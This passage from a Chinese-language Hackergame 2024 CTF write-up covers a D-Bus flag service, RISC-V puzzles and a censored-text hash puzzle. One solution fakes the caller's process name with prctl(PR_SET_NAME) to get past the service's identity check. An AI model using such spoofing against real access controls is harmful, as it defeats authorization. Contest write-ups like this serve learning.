    puts(flag);

    g_object_unref(conn);
    return 0;
}
```

### Q3 Comm Say Maybe 

观看代码，得知 getflag3 服务检查对方进程 comm，咱玩 linux 之前是用了很久的 freebsd 的，这一点是 PostgreSQL 的一个讲话 [`setproctitle_fast()`](https://man.freebsd.org/cgi/man.cgi?query=setproctitle_fast&sektion=3&manpath=freebsd-release-ports)（跑个题），linux 上是 [`prctl(PR_SET_NAME)`](https://man.archlinux.org/man/PR_SET_NAME.2const)

你甚至可以 patch `getflag3.c` 来拿 flag：
- 加上接收并打印结果的代码
- 一上来 `prctl()` 来伪装 `comm`

```c
prctl(PR_SET_NAME, "getflag3");
```

```c
const char *flag = NULL;
if (!result)
{
    g_printerr("error on call: %s\n", error->message);
    g_error_free(error);
}
g_variant_get(result, "(&s)", &flag);
puts(flag);
```

所以这些题的目的是教你学会使用 glib 的 dbus 设施！（确信）

## RISC-V：虎胆龙威

一开始朋友说你不是会 riscv 吗？要不看看这个题，我看了，恩，很刺激。三个极端条件下的编程：
1. 只能做加法（后来不小心看到后面的 `cpu_state_shift` 才知道移位操作也是可以的，但是已经晚了）
2. 内存只能读取一次
3. 你指令中 1/4 丢失（啊？）

虽然我在写 riscv 内核，但是这个条件有点太刺激了。

> 我们甚至提供一份示例程序，请见压缩包中的 `riscv_straight.S`。

显然他们**甚至**提供的示例程序不会起到什么帮助，除非你不知道 gnu as 汇编 directive 以及 riscv 汇编怎么写。
有用程度显然不及上一问的 `getflag3.c`，他是真的教你 glib 的 dbus 该怎么用（不是）。

### Q1 线程故障 / Fault in the Hart（未完成）

你可以使用加法，无条件跳转，过程（不清楚行不行，我设置堆栈失败），移位（后来才知道）。

我的思路是用移位把 4bit 取出来，然后比较的时候 jit 一个跳转表，现用 nop 填满，然后跳转到地址 `table + val` 触发不同操作来实现比较（有点离谱对吧），但是没时间做了。

```riscv
# 只做了取字节的宏（悲）
.macro extract_b1 to, from
    mv \to, \from
    slli \to, \to, 24 # << 24
    srli \to, \to, 24 # >> 24
.endm
.macro extract_b2 to, from
    mv \to, \from
    slli \to, \to, 16 # << 24
    srli \to, \to, 24 # >> 24
.endm
.macro extract_b3 to, from
    mv \to, \from
    slli \to, \to, 8 # << 24
    srli \to, \to, 24 # >> 24
.endm
.macro extract_b4 to, from
    mv \to, \from
    srli \to, \to, 24 # >> 24
.endm
```

妄图实现过程

```riscv
.macro prologue
    addi sp, sp, 4
    sw ra, (sp)
.endm
.macro epilogue
    addi sp, sp, 0xfffffffc # -4
.endm

.section .text
_start:
    li gp, 0xf80 # in
    li tp, 0xfc0 # out
    lla sp, _stack # objdump -d 出来这个堆栈的地址不正常，调试发现后面 call 了 cpu 就不正常了，气死了
    lw t0, (gp)
```

跳转表和指令模板：

```riscv
_reset_jump_table:
    lw t0, _temp_nop
    lw t1, _jump_table
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    add t1, t1, 4
    sw t0, (t1)
    # 未完成
_temp_nop:
    nop
_temp_addi:
_jump_table:
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
```

### Q2 警告：易碎 / Fragility

我本来想着展开 16 次归并排序的，打一枪换一炮，后来看到 riscv 不是有 31 个寄存器吗？那么我要这~~破烂~~内存干什么？

思路如下：
1. 读取所有 16 个数字到寄存器
2. 随便什么排序，展开写
3. 将排好的数字写到指定位置

排序我用的是冒泡排序，汇编怎么写看 godbolt 并且根据提示开启 DEBUG 看执行结果就行了。
我使用 Python 做代码生成（手写展开排序太坐牢）：

```python
# 分配寄存器
n0  = "a6"
n1  = "a7"
n2  = "s2"
n3  = "s3"
n4  = "s4"
n5  = "s5"
n6  = "s6"
n7  = "s7"
n8  = "s8"
n9  = "s9"
n10 = "s10"
n11 = "s11"
n12 = "t3"
n13 = "t4"
n14 = "t5"
n15 = "t6"

# 生成每次比较指令
# a5 用作中间变量，当然题解用异或还原率三个 xor 也行
def compare(a, b):
    print(f"    bltu {a}, {b}, 1f") # 1f 的 f 指的是 forward，你不确定的话 objdump -d 反汇编出来的 label 看是否符合你的预期
    print(f"    mv a5, {a}")
    print(f"    mv {a}, {b}")
    print(f"    mv {b}, a5")
    print(f"1:")

# 冒泡排序
helper = [n0, n1, n2, n3, n4, n5, n6, n7, n8, n9, n10, n11, n12, n13, n14, n15]
# 一开始我给写反了，排出来不对
for o in reversed(range(16)): # outer
    for i in range(o): # inner
        # print(f"compare {i} {i+1}")
        compare(helper[i], helper[i+1])
```

加载和写入数字手写一遍，然后替换 `lw` 为 `sw` 就行了：

```riscv
.section .text
_start:
    li a0, 0xf80 # in
    li a1, 0xfc0 # out

    mv a2, a0 # index
    # loading
    lw a6, (a2)
    add a2, a2, 4
    lw a7,(a2)
    add a2, a2, 4
    lw s2,(a2)
    add a2, a2, 4
    lw s3,(a2)
    add a2, a2, 4
    lw s4,(a2)
    add a2, a2, 4
    lw s5,(a2)
    add a2, a2, 4
    lw s6,(a2)
    add a2, a2, 4
    lw s7,(a2)
    add a2, a2, 4
    lw s8,(a2)
    add a2, a2, 4
    lw s9,(a2)
    add a2, a2, 4
    lw s10,(a2)
    add a2, a2, 4
    lw s11,(a2)
    add a2, a2, 4
    lw t3,(a2)
    add a2, a2, 4
    lw t4,(a2)
    add a2, a2, 4
    lw t5,(a2)
    add a2, a2, 4
    lw t6,(a2)
    add a2, a2, 4

    # 后面塞生成的排序代码以及复制粘贴替换好的写内存代码
```

当然如果你学了 gnu as 的宏的话就更好了。

我一开始是不抱有什么希望的，直到我发现本地跑的判题没有立即退出，而是在跑更多轮，我感觉稳了。

> 我还是懂 RISC-V 的嘛。

## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」（未完成）

### 「行吧就算标题可以很长但是 flag 一定要短点」

我当填字游戏做了（当然一上来就给我整不会了，问了下 AI，真的有 `In the grand hall` 这种表达吗？）：

```
In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were rich, with the ultimate prize bring a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.
             call                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 race                 stages      high                                                        
```

然后下载了一份词典，使用正则表达式搜索可用词，后面还用了类似[在线服务](https://www.regexdictionary.com/)：

```bash
$ grep -E '^[aceghkmrx]{3}nd$' words.txt
amend
emend
grand
```

但是结果不对，我甚至写了一个 playground 和替换检查引擎来检查备选的"所有可能"：

```python
# 我已经尽力了
expr = "In the grand hall of Hackergame 2024, where the walls are lined with {screens|shamans} showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed {coffee|coffer} mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of {hackers|gammers}, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their f###s a #i# of excitement and determination. The {game|race|hack} was on, and the {stacks|stages|stakes|steams} were {high|rich|giga}, with the ultimate prize bring a golden trophy and the {bragging|breaking} rights to say they were the best at {cracking|checking} codes and hacking systems in the land of the rising sun."

import re
from hashlib import sha256
from copy import deepcopy

def hash(text :str) -> bytes:
    return sha256(text.encode('utf8')).hexdigest()

with open("censor_lv1/after.txt") as f:
    after = f.read()

def check(text :str):
    # print(f"check for:{text}")
    # input()

    # 验证审查后内容是否一致
    acopy = deepcopy(text)
    for c in "hackergame":
        acopy = acopy.replace(c, "x")
    # print(acopy)
    assert after.find('\n') == -1
    assert acopy == after

    # 验证 hash
    digest = hash(text)
    if digest == '809101c781f829a33021750de895b7f5130ba6c8f42862e955650dbf7f3c21d7':
        print(text)
        exit()

alphabet = 'aceghkmrx'
re_find_subst = re.compile(r'{(?P<content>[a-z|]+?)}')
def find(expr :str):
    m = re_find_subst.search(expr)
    x = expr.find('#')
    if m is None:
        check(expr)
        return
    elif x != -1:
        for letter in alphabet:
            replaced = expr[:x] + letter + expr[x+1:]
            find(replaced)
    else:
        candidates = m.group("content").split('|')
        for candidate in candidates:
            replaced = expr[:m.start()] + candidate + expr[m.end():]
            # print(replaced)
            find(replaced)

find(expr)
```

期间闹了一个乌龙，我怕 hash 检查那块有问题，所以加了个弱条件 `or digest.startswith('809101')` 然后给我报告结果了，害得我白高兴一场，还以为是给我猜中了。

这个脚本有两个功能：

1. `{candidate1|candidate2}` 展开候选词
2. `#` 实在不知道什么词就展开 `hackergame` 以及可能误杀的 `x`

然后并没有什么用。

看答案中：好好好，一步之遥！其中 "with the ultimate prize being a golden trophy" 这一句中的 "being" 我猜成了 "bring" 且没有考虑其他可能，不然我就跑出来了。
